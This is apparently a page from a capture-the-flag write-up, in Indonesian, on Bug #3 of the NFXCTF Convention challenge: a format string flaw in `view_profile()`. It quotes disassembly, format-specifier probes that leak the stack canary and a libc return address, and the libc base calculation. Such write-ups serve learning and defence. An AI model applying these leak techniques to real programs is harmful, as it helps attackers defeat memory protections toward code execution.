


# NFXCTF Convention — Bug #3 — format string di `view_profile()`

[← Overview](10-nfxctf-convention.md) · [Index](index.md)

## 2.4 Bug #3 — format string di `view_profile()`

```asm
15c4: lea rax, [rip+0x2af5]   # log_buf
15d3: call printf              # printf(log_buf)
```

Feedback disimpan lebih dulu dengan `snprintf(log_buf, 0x100, "%s", buf)`, jadi isi feedback tidak diformat saat disimpan; tetapi saat `view_profile()` dipanggil, `log_buf` dipakai sebagai **format string**. Ini memberi arbitrary read dari stack.

Indeks yang diverifikasi dengan probe (lihat `assets/nfxctf-convention/03b-leak-probe.txt`):

```text
%7$p  = 0x970efad64c02bc00     # stack canary (low byte 00)
%17$p = 0x719bc3829d90         # return ke libc, offset 0x29d90
```

`%17$p - 0x29d90` menghasilkan base libc yang page-aligned (0x719bc3800000).

### Evidence langkah ini



*Terminal evidence — `02-disasm.txt` (arsip transkrip sesi solve).*



*Terminal evidence — `02b-layout.txt` (arsip transkrip sesi solve).*

**Berkas mentah langkah ini:**

- [`02-disasm.txt`](assets/nfxctf-convention/02-disasm.txt)
- [`02b-layout.txt`](assets/nfxctf-convention/02b-layout.txt)
